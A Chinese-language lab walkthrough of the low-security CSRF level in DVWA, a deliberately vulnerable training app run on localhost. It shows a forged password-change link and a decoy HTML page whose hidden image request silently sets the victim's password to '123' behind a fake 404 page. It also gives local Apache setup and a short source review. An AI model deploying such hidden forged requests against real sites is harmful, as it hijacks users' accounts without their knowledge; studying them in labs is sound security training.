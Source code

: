 [TOC]

# low

跨站请求伪造(Cross-site request forgery)，是指利用受害者未失效的身份认证信息（cookie等），诱骗其点击恶意链接，在受害人不知情的情况下以受害者的身份向服务器发送请求（如转账、修改密码等）

CSRF与XSS最大的区别在于它没有盗取cookie而是直接利用



## burp suite拦截

首先用burp suite拦截一个修改密码的报文。

![low0](image/low0.png)

![low1](image/low1.png)



## CSRF攻击

可以直接构造链接`http://dvwa.localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`，由于低安全级别代码未做任何防范，用户点击这个链接时，之前的cookie信息未失效，浏览器会利用受害者的cookie往服务器发送请求。

点击该链接就会跳转到成功修改密码的页面

![low2](image/low2.png)



这个链接比较直白，真实场景下，黑客会对链接进行“伪装“



## 真实场景下的攻击

### 写一个攻击页面

攻击链接隐藏在图片中，受害者点击时会加载图片（即攻击受害者）

```html
<!DOCTYPE html>
<html>
<head>
    <title>hello</title>
</head>
<body>
    <img src = "http://dvwa.localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#" border="0" style="display: none">
    <h1>404</h1>
    <p>file not found</p>
</body>
</html>
```



### 服务器配置

类似于配置dvwa

* 在目录`/etc/apache2/httpd.conf`添加

![low6](image/low6.png)

即

```
<VirtualHost *:80>
 DocumentRoot "/Users/liurenwan/Downloads/CSRF"
 ServerName csrf.localhost
    <Directory "/Users/liurenwan/Downloads/CSRF">
     Options Indexes FollowSymLinks
     AllowOverride All
      allow from all
      Require all granted
      </Directory>
 </VirtualHost>  
```

* 修改 `/etc/hosts`,添加

```
127.0.0.1 csrf.localhost
```

![low7](image/low7.png)

* 重启apache

```
apachectl restart
```

* 修改文件权限

![low8](image/low8.png)



### 真实攻击

用户点击链接`http://csrf.localhost/csrf.html`

受害者点击就会出现以下界面，受害者以为自己点进了无效界面，但实际上此时已经遭到了CSRF攻击

![low4](image/low4.png)

可以实验发现，此时使用密码“password”不能成功登陆，因为加载攻击页面时会请求攻击页面的图片（被隐藏），将密码修改为“123”

![low9](image/low9.png)

## 源码分析

源码在`DVWA/vulnerabilities/csrf/source/low.php`可看到服务器接受两个密码后，会判断两个密码是否匹配（有防止SQL注入的代码，检查输入），匹配则修改，没有对CSRF攻击进行任何防范。

![low5](image/low5.png)